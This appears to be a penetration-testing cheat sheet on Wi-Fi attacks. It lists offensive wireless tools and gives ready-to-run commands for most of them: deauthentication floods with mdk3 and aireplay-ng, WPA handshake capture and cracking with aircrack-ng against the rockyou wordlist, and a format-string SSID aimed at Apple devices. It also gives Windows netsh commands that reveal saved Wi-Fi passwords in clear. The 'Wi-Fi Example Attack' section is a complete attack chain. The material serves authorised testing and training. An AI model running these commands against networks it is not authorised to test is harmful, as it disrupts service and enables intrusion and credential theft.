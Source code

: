 # Wireless Attacks

- [Resources](#resources)

## Table of Contents

- [Aircrack-ng](#aircrack-ng)
- [airodump-ng](#airodump-ng)
- [airmon-ng](#airmon-ng)
- [ALFA AWUS036ACH](#alfa-awus036ach)
- [Apple Wi-Fi Evil SSID](#apple-wi-fi-evil-ssid)
- [mdk3](#mdk3)
- [Microsoft Windows](#microsoft-windows)
- [Wi-Fi Example Attack](#wi-fi-example-attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| AngryOxide | 802.11 Attack Tool | https://github.com/Ragnt/AngryOxide |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| OneShot | Run WPS PIN attacks (Pixie Dust, online bruteforce, PIN prediction) without monitor mode with the wpa_supplicant | https://github.com/kimocoder/OneShot |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```console
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```console
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```console
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```console
%p%s%s%s%s%n
```

## iw

```console
$ iwconfig
$ iw <INTERFACE> scan
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```console
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```cmd
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```cmd
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```cmd
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```console
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```console
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```console
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```console
$ sudo airmon-ng stop wlan0mon
```

## wpa_supplicant

### wpa_supplicant.conf

```console
$ echo 'ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1

network={
    ssid="<SSID>"
    psk="<PSK>"
}' > /etc/wpa_supplicant.conf
```

```console
$ wpa_supplicant -B -D wext -i <INTERFACE> -c /etc/wpa_supplicant.conf
```

```console
$ ip link set <INTERFACE> up
```

```console
$ dhclient -h
```
